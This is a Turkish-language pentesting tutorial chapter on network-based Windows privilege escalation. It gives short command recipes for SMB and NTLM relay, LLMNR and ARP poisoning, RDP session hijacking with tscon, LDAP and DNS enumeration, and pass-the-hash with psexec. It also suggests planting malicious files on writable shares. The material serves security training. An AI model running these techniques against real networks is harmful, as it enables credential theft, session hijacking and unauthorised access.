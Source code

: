 **Windows Privilege Escalation: Network Exploitation (Ağ İle İlgili Açıklardan Faydalanma)**

Windows sistemlerinde ağ bağlantıları ve protokolleri genellikle yanlış yapılandırmalar veya zafiyetlere sahiptir. Saldırganlar, bu açıklardan faydalanarak ağ üzerinden privilege escalation gerçekleştirebilir. Aşağıda ağ tabanlı privilege escalation yöntemleri detaylı bir şekilde açıklanmıştır.

---

### **9.1. SMB Relay Attacks (SMB Yönlendirme Saldırıları)**

SMB protokolü, Windows ağ paylaşımları için kullanılır. SMB relay saldırıları, kimlik bilgilerini yakalayıp hedef bir makineye yeniden yönlendirme esasına dayanır.

#### **Tespit**
- SMB hizmetinin açık olup olmadığını kontrol edin:
  ```cmd
  nmap -p445 [target-ip]
  ```
- `Responder` gibi araçlarla hedef ağda SMB trafiğini analiz edin.

#### **Kötüye Kullanma**
1. **Responder** ile SMB kimlik bilgilerini yakalayın:
   ```bash
   responder -I eth0
   ```
2. Yakalanan kimlik bilgilerini kullanarak bir hedef makineye kimlik doğrulama yapın:
   ```cmd
   impacket-psexec user@target
   ```

---

### **9.2. RDP Hijacking (Uzak Masaüstü Kaçırma)**

RDP (Remote Desktop Protocol) oturumları, yanlış yapılandırıldığında veya yetersiz şekilde güvenli hale getirildiğinde saldırganlar tarafından ele geçirilebilir.

#### **Tespit**
- RDP’nin açık olup olmadığını kontrol edin:
  ```cmd
  nmap -p3389 [target-ip]
  ```
- Var olan oturumları kontrol etmek için:
  ```cmd
  qwinsta
  ```

#### **Kötüye Kullanma**
1. Var olan oturumu listeleyin ve ID’sini bulun.
2. Oturumu ele geçirmek için:
   ```cmd
   tscon [ID] /dest:console
   ```

---

### **9.3. LLMNR/NBT-NS Poisoning**

LLMNR (Link-Local Multicast Name Resolution) ve NBT-NS (NetBIOS Name Service), ağda isim çözümlemek için kullanılır. Bu protokoller zayıf güvenlik mekanizmalarına sahiptir ve zehirlenebilir.

#### **Kötüye Kullanma**
1. **Responder** kullanarak LLMNR/NBT-NS poisoning gerçekleştirin:
   ```bash
   responder -I eth0
   ```
2. Yakalanan hash’leri brute-force veya pass-the-hash saldırılarında kullanın.

---

### **9.4. LDAP Exploitation (LDAP İstismarları)**

LDAP (Lightweight Directory Access Protocol), Active Directory bilgilerinin alınması için kullanılır. Yanlış yapılandırıldığında hassas bilgiler ifşa edilebilir.

#### **Tespit**
- LDAP’in açık olup olmadığını kontrol edin:
  ```cmd
  nmap -p389 [target-ip]
  ```

#### **Kötüye Kullanma**
1. Anonim LDAP oturumlarını test edin:
   ```bash
   ldapsearch -x -h [target-ip] -b "dc=domain,dc=com"
   ```
2. Hassas bilgileri alın ve privilege escalation için kullanın (örneğin, kullanıcı hash’leri).

---

### **9.5. DNS Zone Transfer**

Yanlış yapılandırılmış DNS sunucuları, zone transfer işlemlerine izin verebilir. Bu işlem, tüm DNS kayıtlarının alınmasına olanak tanır.

#### **Kötüye Kullanma**
1. Zone transfer yapmaya çalışın:
   ```cmd
   nslookup
   server [dns-server-ip]
   ls -d domain.com
   ```

2. Elde edilen DNS kayıtlarını kullanarak diğer hedefleri belirleyin.

---

### **9.6. Network Shares Exploitation (Ağ Paylaşımlarının İstismarı)**

Yanlış yapılandırılmış ağ paylaşımları, saldırganların hassas bilgilere erişmesine izin verebilir.

#### **Tespit**
- Açık ağ paylaşımlarını kontrol edin:
   ```cmd
   net view \\[target-ip]
   ```

#### **Kötüye Kullanma**
1. Yazılabilir bir paylaşım bulun.
2. Paylaşıma zararlı bir dosya yerleştirin veya mevcut bir dosyayı değiştirin.

---

### **9.7. ARP Poisoning**

ARP (Address Resolution Protocol), yerel ağdaki IP adreslerini MAC adreslerine eşler. Bu protokol saldırganlar tarafından zehirlenebilir.

#### **Kötüye Kullanma**
1. **Ettercap** veya **Bettercap** kullanarak ARP poisoning gerçekleştirin:
   ```bash
   bettercap -iface eth0
   arp.spoof on
   ```
2. Hedef makinenin trafiğini manipüle edin veya kimlik bilgilerini yakalayın.

---

### **9.8. NTLM Relay**

NTLM protokolü, ağ üzerinde kimlik doğrulama için kullanılır. NTLM relay saldırılarında, kimlik bilgileri hedef bir sisteme yönlendirilerek yetki kazanılır.

#### **Kötüye Kullanma**
1. **Impacket ntlmrelayx** kullanarak kimlik bilgilerini yakalayın ve yönlendirin:
   ```bash
   ntlmrelayx.py -t smb://[target-ip]
   ```

---

### **9.9. Proxy Exploitation**

Bazı ağlarda proxy sunucuları güvenlik mekanizması olarak kullanılır. Yanlış yapılandırılmış proxy sunucuları privilege escalation için kullanılabilir.

#### **Kötüye Kullanma**
1. Proxy sunucusunu analiz edin.
2. Proxy üzerinden hassas servislere erişim sağlayın.

---

### **9.10. Tools for Network Exploitation**

- **Responder:** LLMNR/NBT-NS poisoning için.
- **Impacket Suite:** SMB, LDAP ve NTLM relay saldırıları için araçlar içerir.
- **Bettercap/Ettercap:** ARP poisoning için.
- **Nmap:** Port taraması ve ağ analizi için.
- **Metasploit Framework:** Ağ tabanlı exploit modülleri için.

---

### **Örnek Senaryo**

- **Hedef:** SMB relay saldırısı ile SYSTEM yetkisi elde etmek.
- **Adımlar:**
  1. Responder ile SMB kimlik bilgilerini yakalayın.
  2. Impacket psexec kullanarak yakalanan hash ile hedef sisteme bağlanın:
     ```bash
     psexec.py -hashes [LM_HASH]:[NTLM_HASH] user@target-ip
     ```

---
